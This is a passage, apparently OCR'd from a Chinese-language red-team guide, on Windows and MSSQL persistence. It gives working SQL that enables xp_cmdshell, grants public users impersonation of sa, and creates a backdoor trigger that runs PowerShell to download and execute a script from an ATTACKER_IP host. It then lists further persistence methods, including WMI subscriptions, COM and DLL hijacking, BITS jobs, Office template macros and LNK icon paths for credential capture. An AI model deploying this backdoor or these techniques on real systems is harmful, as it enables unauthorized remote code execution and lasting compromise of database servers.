             SQL
            
            ```
            EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE;
            EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
            ```
            
        2. **授予执行权限** (可选，若 Web 应用用户非 sysadmin):
            
            SQL
            
            ```
            USE master;
            GRANT IMPERSONATE ON LOGIN::sa TO [Public]; -- 允许公共用户模拟 sa
            ```
            
        3. **创建触发器**:
            
            SQL
            
            ```
            USE TargetDB; -- 切换到目标数据库
            CREATE TRIGGER [sql_backdoor]
            ON dbo.TargetTable -- 目标表
            FOR INSERT -- 触发事件 (如 INSERT, UPDATE, DELETE, LOGON)
            AS
            BEGIN
                EXECUTE AS LOGIN = 'sa'; -- 尝试以 sa 身份执行
                EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1''')"'; -- 执行命令
            END;
            ```
            
            其中 `evilscript.ps1` 是攻击者控制的 PowerShell payload。

##### 9. 其他技术 (Others)

- **WMI 事件订阅 (WMI Event Subscription)**: 创建持久的 WMI 事件消费者，由特定事件触发执行恶意代码。
- **COM 劫持 (COM Hijacking)**: 劫持合法的 COM 对象注册信息，使其加载恶意 DLL。
- **DLL 劫持 (DLL Hijacking)**: 利用应用程序加载 DLL 的搜索顺序，将恶意 DLL 放置在优先搜索路径中，使其被合法程序加载。
- **BITS 持久化 (BITS Persistence)**: 利用后台智能传输服务 (BITS) 创建任务下载并执行 payload。
- **Office 模板宏 (Office Template Macros)**: 将恶意宏嵌入到全局 Office 模板中 (如 `Normal.dotm`)。
- **屏幕保护程序 (Screen Savers)**: 替换合法的屏幕保护程序 (`.scr` 文件) 为恶意程序。
- **LNK 文件自定义图标位置**: LNK 文件可以指定一个远程 UNC 路径作为图标文件，当用户浏览该 LNK 文件所在目录时，系统会尝试访问该 UNC 路径，可用于凭据捕获或探测。